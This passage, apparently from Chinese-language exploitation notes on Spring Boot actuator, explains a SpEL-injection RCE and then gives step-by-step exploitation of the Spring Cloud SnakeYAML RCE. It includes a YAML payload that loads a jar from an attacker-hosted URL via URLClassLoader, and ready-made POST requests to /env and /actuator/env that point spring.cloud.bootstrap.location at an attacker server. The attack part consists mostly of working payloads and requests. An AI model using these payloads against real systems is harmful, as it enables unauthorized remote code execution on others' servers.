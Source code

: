 



##### 利用原理

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中  `${}`  包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

详细分析参见下文:

​	[SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)



#### 2.2Spring clound SnakeYAML RCE

##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）



##### 利用方法

**步骤一**: **托管yml和jar文件**

> 首先在自己的机器上开启个python的http服务(或者使用apache和nginx)，然后将yml文件(访问jar包)和jar包放在根目录下，便于访问

在根目录下放置yml文件，内容如下:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-ip-ip/example.jar"]
  ]]
]
```



在根目录下放置example.jar包(需要执行的命令)，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)

**步骤二： 设置 spring.cloud.bootstrap.location 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```
